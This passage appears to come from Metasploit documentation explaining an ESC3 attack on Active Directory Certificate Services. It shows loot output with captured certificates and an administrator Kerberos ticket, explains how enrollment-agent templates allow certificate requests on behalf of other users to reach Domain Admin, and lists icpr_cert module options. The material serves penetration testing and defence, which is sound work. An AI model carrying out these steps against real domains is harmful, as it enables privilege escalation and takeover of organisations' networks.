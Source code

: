 ```
host           service  type                 name             content                   info                                                                     path
----           -------  ----                 ----             -------                   ----                                                                     ----
                        windows.ad.cs        certificate.pfx  application/x-pkcs12      DAFOREST\normal Certificate                                              /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
                        windows.ad.cs        certificate.pfx  application/x-pkcs12      DAFOREST\normal Certificate                                              /home/gwillcox/.msf4/loot/20221216155701_default_unknown_windows.ad.cs_756798.pfx
172.30.239.85           mit.kerberos.ccache                   application/octet-stream  realm: DAFOREST.COM, client: administrator, server: krbtgt/daforest.com  /home/gwillcox/.msf4/loot/20221216155910_default_172.30.239.85_mit.kerberos.cca_300840.bin

msf6 auxiliary(admin/kerberos/pkinit_login) >
```

# Exploiting ESC3 To Gain Domain Adminstrator Privileges
To exploit ESC3 vulnerable templates we will use a similar process to ESC2 templates but with slightly different steps. First, lets return to the earlier output where we can find several templates that are vulnerable to ESC3 attacks. However we need to split them by attack vector. The reason is that the first half of this attack needs to use the ESC3_TEMPLATE_1 vulnerable certificate templates to enroll in a certificate template that has the Certificate Request Agent OID (1.3.6.1.4.1.311.20.2.1) that allows one to request certificates on behalf of other principals (such as users or computers).

The second part of this attack will then require that we co-sign requests for another certificate using the certificate that we just got, to then request a certificate that can authenticate to the domain on behalf of another user. To do this we will need to look for certificates in the `ldap_esc_vulnerable_cert_finder` module which are labeled as being vulnerable to the ESC3_TEMPLATE_2 attack.

The list of ESC3_TEMPLATE_1 vulnerable templates is pretty short and consists of a single template:
- ESC3-TEMPLATE-1 - Vulnerable to ESC3_TEMPLATE_1 and allows enrollment via any authenticated domain user.

ESC3_TEMPLATE_2 are more plentiful though and we can find a few that are of interest:
- SubCA - Again as mentioned earlier can only be enrolled in by Doman Admins and Enterprise Admins, so not a viable vector.
- ESC3-Template2 - Enrollable via any authenticated domain user.
- User - Enrollable via any authenticated domain user.
- Administrator -  Can only be enrolled in by Doman Admins and Enterprise Admins, so not a viable vector.
- Machine - No real overlap between Domain Computers and Authenticated Users I don't think?
- DomainController - Can only be enrolled in by Domain Admins and Enterprise Admins, so not a viable vector.

Narrowing this list down to those we can actually enroll in as users, this leaves us with  `User` and `ESC3-Template2` as templates that can be used for the second part of this vulnerability.

We'll first get the cert using `ipcr_cert` with the `ESC3-Template1` certificate.

```
msf6 > use auxiliary/admin/dcerpc/icpr_cert
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   ALT_DNS                         no        Alternative certificate DNS
   ALT_UPN                         no        Alternative certificate UPN (format: USER@DOMAIN)
   CA                              yes       The target certificate authority
   CERT_TEMPLATE  User             yes       The certificate template
   ON_BEHALF_OF                    no        Username to request on behalf of (format: DOMAIN\USER)
   PFX                             no        Certificate to request on behalf of
```